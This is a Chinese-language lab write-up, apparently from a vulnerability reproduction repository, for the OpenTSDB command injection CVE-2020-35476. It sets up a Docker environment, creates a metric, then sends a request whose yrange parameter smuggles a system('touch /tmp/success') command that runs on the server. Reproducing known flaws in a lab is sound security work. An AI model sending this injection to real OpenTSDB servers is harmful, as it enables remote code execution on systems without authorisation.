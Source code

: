 # OpenTSDB 命令注入漏洞（CVE-2020-35476）

OpenTSDB是一款基于Hbase的、分布式的、可伸缩的时间序列数据库。在其2.4.0版本及之前，存在一处命令注入漏洞。

参考链接：

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## 漏洞环境

执行如下命令启动一个OpenTSDB 2.4.0：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到OpenTSDB的Web接口。

## 漏洞复现

利用这个漏洞需要知道一个metric的名字，我们可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看metric列表：

![](1.png)

我们这里的metrics是空的。

好在当前OpenTSDB开启了自动创建metric功能（`tsd.core.auto_create_metrics = true`），所以我们可以使用如下API创建一个名为`sys.cpu.nice`的metric并添加一条记录：

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

如果目标OpenTSDB存在metric，且不为空，则无需上述步骤。

发送如下数据包，其中参数`m`的值必须包含一个有数据的metric：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](2.png)

进入容器中可见`touch /tmp/success`已成功执行：

![](3.png)
